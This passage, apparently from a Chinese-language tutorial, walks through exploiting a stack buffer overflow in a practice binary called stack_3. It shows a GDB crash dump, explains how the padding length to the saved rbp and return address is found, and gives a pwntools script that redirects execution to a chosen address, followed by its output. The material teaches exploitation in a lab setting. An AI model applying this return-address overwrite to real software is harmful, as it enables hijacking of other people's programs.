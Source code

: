 ```
0016| 0x7fffffffdac8 ("WWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0024| 0x7fffffffdad0 ("YYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0032| 0x7fffffffdad8 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0040| 0x7fffffffdae0 ("CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0048| 0x7fffffffdae8 ("EEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0056| 0x7fffffffdaf0 ("GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00005555555551a6 in main () at stack_3.c:12
12      }
```
我們發現到，`rbp` 的內容為 `QQQQRRRR`，而根據我們先前學到的 stack 分佈情況，`rbp` 接著往高位記憶體地址走，便會來到 `return address` 的位置，這邊我們重新構造 payload，概念上為 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP + rsp + return address (rip)`，`rsp` 和 `rip` 皆為 8 bytes。前面 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP` 用於填充 stack 的部份我們會稱為 padding。

```py
from pwn import *

# Start the process
p = process('./stack_3', level="debug")

# Payload
padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
rbp = b"12345678"
rip = p64(0x401156)
payload = padding + rbp + rip

# Send the input
p.sendline(payload)

# # Receive the output
output = p.recvall().decode()

# # Print the output
print(output)

```
以下為執行結果
```shell
$ python3 script.py
[+] Starting local process './stack_3': pid 12294
[+] Receiving all data: Done (23B)
[*] Process './stack_3' stopped with exit code -11 (SIGSEGV) (pid 12294)
how did you do that???

❯ python3 script.py
[+] Starting local process './stack_3' argv=[b'./stack_3'] : pid 12343
[DEBUG] Sent 0x51 bytes:
    00000000  41 41 41 41  42 42 42 42  43 43 43 43  44 44 44 44  │AAAA│BBBB│CCCC│DDDD│
    00000010  45 45 45 45  46 46 46 46  47 47 47 47  48 48 48 48  │EEEE│FFFF│GGGG│HHHH│
    00000020  49 49 49 49  4a 4a 4a 4a  4b 4b 4b 4b  4c 4c 4c 4c  │IIII│JJJJ│KKKK│LLLL│
    00000030  4d 4d 4d 4d  4e 4e 4e 4e  4f 4f 4f 4f  50 50 50 50  │MMMM│NNNN│OOOO│PPPP│
    00000040  31 32 33 34  35 36 37 38  56 11 40 00  00 00 00 00  │1234│5678│V·@·│····│
    00000050  0a                                                  │·│
    00000051
[+] Receiving all data: Done (23B)
```